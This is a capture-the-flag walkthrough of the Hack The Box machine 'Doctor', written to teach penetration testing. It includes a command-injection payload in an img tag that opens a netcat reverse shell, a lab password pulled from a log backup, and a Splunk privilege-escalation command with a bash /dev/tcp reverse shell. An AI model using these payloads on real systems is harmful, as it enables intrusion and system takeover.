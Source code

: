 # [Doctor](https://app.hackthebox.com/machines/doctor)


```bash
nmap -p- --min-rate 10000  10.10.10.209 
```

![Alt text](img/image.png)

After discovering open ports, let's do wider scan for them.

```bash
nmap -A -sC -sV -p22,80,8089 10.10.10.209
```

![Alt text](img/image-1.png)


We see that port 8089 runs 'Splunk' httpd.

After seeing the mail of them 'info@doctors.htb' , we can add ip address to '/etc/hosts' file for resolving purposes.

```bash
┌──(root㉿kali)-[~]
└─# cat /etc/hosts           
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.10.37 blocky.htb
10.10.10.209 doctors.htb
```

Once we logged in system we have (20 minutes to make discover).

We can make post.

![Alt text](img/image-2.png)


Let's try to command injection, I found below payload for this that , it's like **Stored XSS** that, I put malicious HTML tag into web application's post field which request to my machine to get reverse shell.

```bash
<img src=http://10.10.16.5/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.5'$IFS'1337')>
```

![Alt text](img/image-3.png)

I got reverse shell.

![Alt text](img/image-4.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-5.png)


After enumeration on machine, we see that this user belongs 'adm' group also.

![Alt text](img/image-6.png)

On this `/var/log/apache2` directory, I found called a 'backup', let's read this file to find any stored password.

![Alt text](img/image-7.png)


We find password via below method.
```bash cat backup  | grep "pass"```

![Alt text](img/image-8.png)


That's the password of 'shaun' user.

shaun : Guitar123


user.txt

![Alt text](img/image-9.png)


For privilege escalation to 'root' user, I came back to before that I know Splunk service is also running.
[Here](https://github.com/cnotin/SplunkWhisperer2), I find how to privesc to root user.

```bash
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.16.5 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.16.5/1338 0>&1'"
```


![Alt text](img/image-10.png)


root.txt

![Alt text](img/image-11.png)